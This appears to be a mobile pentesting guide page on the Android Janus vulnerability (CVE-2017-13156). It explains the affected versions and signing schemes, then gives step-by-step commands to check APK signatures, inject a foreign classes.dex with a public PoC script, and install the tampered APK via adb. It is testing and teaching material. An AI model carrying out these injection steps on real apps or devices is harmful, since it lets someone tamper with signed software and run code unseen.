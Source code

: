 # Janus Vulnerability (CVE-2017-13156)

## Whats Janus Vulnerability

A serious vulnerability in Android allows attackers to inject a DEX file into an APK file without affecting the signatures.

## Details

1. &#x20;On device running android version 5.X & 6.X, Apk signature was verified using only v1 scheme Janus vulnerability was found in v1 signing scheme and google released a patch on 2017 December 01 to fix Janus on these android versions. so even though apk is signed only with v1 which can bem run on 5.x & 6.x, if 2017 December 01 patch is installed in the device Janus cannot be exploited.
2. After releasing the patch for Janus, Google released v2 signing scheme and prioritized device to use v2 scheme over v1 scheme if v2 was used along with v1 scheme but they did not integrate the patch into the system until android 8.1. This made possible to exploit Janus on android 7.x & 8.0 also, as long as 2017 December patch is not installed.
3. Applications signed with v2 or v3 along with v1 are also vulnerable to Janus if they are made to run on android versions 5.x & 6.x as it verifies only v1 scheme without installing the patch.
4. Finally v1 scheme was removed and V4 scheme has been introduced in Android 11, Applications that are only signed with v1 scheme will not run on Android 11

## How to Test

* [ ] &#x20;We use [apksigner](https://medium.com/mobis3c/setting-up-an-android-pentesting-environment-29991aa0c3f1#46c8) tool to find the signature schemes used by the application&#x20;

```bash
apksigner verify -verbose h5.apk
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>apk  has been signed only with v1, no v2 or v3 signature</p></figcaption></figure>

* [ ] Use [apktool](https://medium.com/mobis3c/setting-up-an-android-pentesting-environment-29991aa0c3f1#37de) to find the min android version on which we can run this application&#x20;

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>Application can be run on API Level 15(Android 4.0.4 Ice Cream Sandwich), so we can choose any device from <strong>5.x, 6.x, 7.x &#x26; 8.0</strong> to exploit it.</p></figcaption></figure>

```bash
apktool -s d h5.apk && cat h5/apktool.yml | grep minSdk
```

* [ ] Get classes.dex from any other apk&#x20;

```bash
apktool -s d WhatsApp.apk && mv WhatsApp/classes.dex
```

* [ ] To Inject this classes.dex file into our h5 application, we use this exploit code from [**VEO**’s repo](https://raw.githubusercontent.com/V-E-O/PoC/master/CVE-2017-13156/janus.py). Copy the code and create new file named **janus.py** and paste into it

```bash
python janus.py classes.dex h5.apk kal-h5.apk
```

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

* [ ] &#x20;Install adb exploit

```
adb install h5.apk
adb install -r kal-h5.apk
```

## Automation

{% embed url="https://github.com/h0tak88r/j88nx" %}

```
# Basic APK analysis
go run main.go -apk path/to/your.apk

# Analysis with custom POC dex file
go run main.go -apk path/to/your.apk -dex path/to/poc.dex
```

## Resources

{% embed url="https://medium.com/mobis3c/exploiting-apps-vulnerable-to-janus-cve-2017-13156-8d52c983b4e0" %}
